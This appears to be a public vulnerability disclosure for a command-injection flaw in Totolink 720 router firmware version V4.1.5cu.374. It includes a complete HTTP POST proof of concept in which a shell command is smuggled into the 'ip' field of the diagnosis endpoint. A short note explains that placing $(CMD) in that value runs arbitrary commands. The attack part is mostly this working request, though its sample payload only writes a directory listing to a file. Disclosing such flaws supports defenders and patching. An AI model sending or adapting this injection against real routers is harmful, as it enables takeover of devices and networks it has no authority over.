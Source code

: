 Exploit Title:Totolink 720 has a code execution vulnerability  
Version:V4.1.5cu.374  
Date:2022/08/16  
Exploit Author:xiaohu816  
Vendor Homepage:https://www.totolink.net/  

POC:  
After the administrator logs in, enter "system tools" - > "Ping diagnosis" page  
执行tls>/tmp/1.txt命令  
<code>
POST /cgi-bin/cstecgi.cgi HTTP/1.1  
Host: 192.168.0.1  
Content-Length: 52  
Accept: application/json, text/javascript, */*; q=0.01  
X-Requested-With: XMLHttpRequest  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
Origin: http://192.168.0.1  
Referer: http://192.168.0.1/advance/diagnosis.html?time=1659889464870  
Accept-Encoding: gzip, deflate  
Accept-Language: en-US,en;q=0.9  
Cookie: SESSION_ID=2:1591951611:2  
Connection: close  

{"ip":"aaaa\tls>/tmp/1.txt","num":"2","topicurl":"setDiagnosisCfg"}   
</code>

Analysis Report: 
In the setdiagnosicfg function, the value string corresponding to the IP in the JSON data is directly put into V6  

![image](https://user-images.githubusercontent.com/111302002/184783693-4239eb22-9729-4d3b-8357-57af94abebb4.png)  

![image](https://user-images.githubusercontent.com/111302002/184783789-cdb09e00-feb1-4010-bc17-7ef477fe0da5.png)  
Just write a string such as $(CMD) in the value corresponding to the IP to complete the command injection at CMD  


